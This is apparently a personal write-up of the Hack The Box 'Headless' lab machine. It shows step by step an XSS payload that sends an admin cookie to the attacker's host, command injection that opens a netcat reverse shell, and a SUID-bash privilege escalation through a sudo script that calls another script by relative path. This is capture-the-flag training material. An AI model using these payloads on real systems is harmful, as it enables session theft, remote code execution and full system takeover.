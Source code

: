 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Headless](https://app.hackthebox.com/machines/Headless)

> [!tip]- Summary with Spoilers
> - This Linux machine included an XSS vulnerability that enabled RCE, providing initial access.
> - Privilege escalation was achieved via a misconfigured `sudo` script that invoked another script using a relative path.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue May 28 14:16:13 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.11.8)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

## 5000/tcp Http

![](_/htb-headless-20240528-1.png)

```console
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://t:5000/support
200      GET       96l      259w     2799c http://t:5000/
500      GET        5l       37w      265c http://t:5000/dashboard
```

`/dashboard` complains about authorization:

```text
The server could not verify that you are authorized to access the URL requested. You either supplied the wrong credentials (e.g. a bad password), or your browser doesn't understand how to supply the credentials required.
```

Burp shows that it sets a cookie:

```console
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Decoded, it contains `"user",` and some data, `f^TïËòÍhðÖðY~`.

So, first I'll try to use the form at `/support` to do an XSS attack and recover an admin's cookie.

My first attempt uses `<script>var i=new Image(); i.src="http://10.10.14.2/?cookie="+btoa(document.cookie);</script>` as the `message` parameter on the `/support` form. But, the site doesn't like that:

![](_/htb-headless-20240528-3.png)

I get one empty hit:

```console
10.10.14.2 - - [28/May/2024 16:38:29] "GET /?cookie= HTTP/1.1" 200 -
```

Eventually this one comes back:

```console
10.10.11.8 - - [28/May/2024 16:38:51] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

I'm not sure which requests those were from, since there's a lag.

Decoding the base64 value above, the cookie is:

```console
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

This time the value is "admin" not "user": `"admin"fÌ94Iº­(È½_lÄ§^ô`

I try the `/dashboard` page again, but this time I use Intercept in Burp and replace the cookie value with the one captured. Now I can view the dashboard:

![](_/htb-headless-20240528-4.png)

That's great but I also edit the cookie value in Firefox so I can play around with the dashboard without having to intercept and modify each request.

![](_/htb-headless-20240528-6.png)

Here's the POST request:

```http
POST /dashboard HTTP/1.1
Host: t:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://t:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://t:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close
date=2023-09-15
```

## RCE

Modifying the `date` parameter with a reverse shell invocation works:

```http
date=2023-09-15;busybox%20nc%2010.10.14.2%20443%20-e%20bash
```

```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.8] 42470
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

## PE

One script available via Sudo:

```console
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```text
dvir@headless:~/app$ cat /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
exit 0
```

I'm most interested in this line:

```console
./initdb.sh 2>/dev/null
```

Since it's using a relative path, I'll create my own malicious `initdb.sh`.

```console
dvir@headless:~/app$ echo 'cp /bin/bash /tmp/x; chmod 4755 /tmp/x' > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
```

I'll make sure the process it's looking for isn't running:

```text
dvir@headless:~/app$ ps faxuw |grep initdb
dvir        1497  0.0  0.0   6332  2128 pts/0    S+   02:00   0:00                  \_ grep initdb
```

And then I'll trigger the exploit.

```text
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.05, 0.08, 0.08
Database service is not running. Starting it...
dvir@headless:~/app$ ls -l /tmp/x
-rwsr-xr-x 1 root root 1265648 May 29 02:00 /tmp/x
dvir@headless:~/app$ /tmp/x -p
x-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
x-5.2# cat /root/root.txt
5f8c95f...
```

## Post

## Open Questions

Unresolved issues encountered while attacking this target.

- Which parameter on the `/dashboard` form was vulnerable to XSS? I tried several but it was hard to tell which one worked since there was a delay in the response. And how did one of the responses return an empty string?

## Credits

- Thanks to [TechnoLifts writeup](https://medium.com/@technolifts/headless-hack-the-box-htb-write-up-1c728108c0ca) for getting the right syntax on the XSS.
